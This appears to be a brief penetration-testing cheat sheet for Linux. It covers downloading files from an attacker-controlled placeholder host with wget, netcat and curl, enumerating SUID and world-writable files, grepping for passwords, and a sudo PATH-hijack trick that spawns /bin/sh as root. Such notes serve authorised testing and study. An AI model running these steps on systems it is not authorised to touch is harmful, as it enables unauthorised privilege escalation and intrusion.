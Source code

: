 ## File Transfers
```bash
# wget
wget http://<ip>/file_name -O /path/to/save/file

# Netcat
nc -nv <ip> <port> > file/to/recv

# cURL
curl http://<ip>/file_name --output file_name
```

## Information Gathering
```bash
# Find useable Linux files
find / -perm -u=s -type f 2>/dev/null

# Find writeable files
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# Find writeable directories
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null

# Disk Usage
sudo du -hsx ./* | sort -rh | head -n 40

# Cron Jobs
ls -la /etc/cron.daily/

grep password -B 5 -A 5 # below 5 above 5
```

## Abusing Sudo
Can sudo but absolute path is specified? Use `ltrace` to view libraries being loaded by these programs and check if absolute path is specified or not

```bash
# Easy win?
sudo -l # Check programs on GTFOBins

# Can sudo, abosulte path not specified?
echo "/bin/sh" > <program_name>
chmod 777 <program_name>
# Export PATH=.:$PATH
sudo <program_name>
```